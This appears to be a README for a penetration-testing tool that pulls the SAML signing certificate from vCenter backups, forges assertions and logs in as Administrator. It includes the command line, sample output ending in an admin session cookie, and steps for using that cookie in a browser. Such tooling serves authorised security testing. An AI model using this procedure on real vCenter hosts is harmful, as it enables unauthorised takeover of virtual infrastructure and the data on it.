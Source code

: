 # vCenter SAML Login Tool
A tool to extract the Identity Provider (IdP) cert from vCenter backups and log in as Administrator

## Background
Commonly, during engagements, we will gain access to vCenter backups on a fileserver or gain root access to the VCSA host through recent CVEs. Logging into the vCenter vSphere UI allows us to easily gain access to more systems, confidential information, as well as show customers the impact of these findings.

The data.mdb file contains the certificates and can be found within vCenter backups as well as on the VCSA host with root permissions. These certificates are stored in cleartext and can be used to sign any SAML authentication request for any user - including the builtin Administrator.

If you'd like to know more about several use cases for this tool and how we've used it to gain Administrative access to vCenter hosts check out our blog post: https://www.horizon3.ai/compromising-vcenter-via-saml-certificates/

## Usage
```
root@kali:~/vcenter# python3 vcenter_saml_login.py -p data.mdb -t 10.0.100.200
[*] Successfully extracted the IdP certificate
[*] Successfully extracted trusted certificate 1
[*] Successfully extracted trusted certificate 2
[*] Obtaining hostname from vCenter SSL certificate
[*] Found hostname vcsa.olympus for 10.0.100.200
[*] Initiating SAML request with 10.0.100.200
[*] Generating SAML assertion
[*] Signing the SAML assertion
[*] Attempting to log into vCenter with the signed SAML request
[+] Successfuly obtained Administrator cookie for 10.0.100.200!
[+] Cookie: VSPHERE-UI-JSESSIONID=06D1630719B4DE33A4CE653458911640
```

With the above cookie, visit the VCSA instance at https://\<VCSA>\/ui, add the cookie under the /ui path, and re-browse to https://\<VCSA\>/ui. 

## Demonstration
![](vcenter.gif)
